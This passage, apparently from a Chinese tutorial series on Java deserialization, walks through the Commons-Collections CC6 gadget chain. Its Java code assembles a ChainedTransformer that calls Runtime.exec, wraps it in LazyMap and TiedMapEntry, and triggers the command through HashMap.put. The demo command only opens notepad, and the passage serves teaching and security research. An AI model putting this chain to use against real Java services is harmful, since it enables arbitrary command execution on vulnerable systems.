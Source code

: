 ![image-20250926150323580](./Commons-Collections%E7%AF%8703-CC6%E9%93%BE/image-20250926150323580.png)

接下来就用`put`方法构造一个`hashmap`进行序列化就可以了

```
Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime",null}),
                new InvokerTransformer("invoke", new Class[]{Object.class,Object[].class},new Object[]{null,null}),
                new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"notepad.exe"})

        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);

        HashMap<Object,Object> hashmap = new HashMap<>();
        LazyMap decoratemap = (LazyMap)LazyMap.decorate(hashmap,chainedTransformer);

        TiedMapEntry tiedMapEntry = new TiedMapEntry(decoratemap,"key");

        hashmap.put(tiedMapEntry,decoratemap);
```

但是不需要序列化和反序列化也可以弹出计算器

是因为`put`方法时就已经运行了`hash`函数所以不需要序列化也可以命令执行

![image-20250926150257430](./Commons-Collections%E7%AF%8703-CC6%E9%93%BE/image-20250926150257430.png)
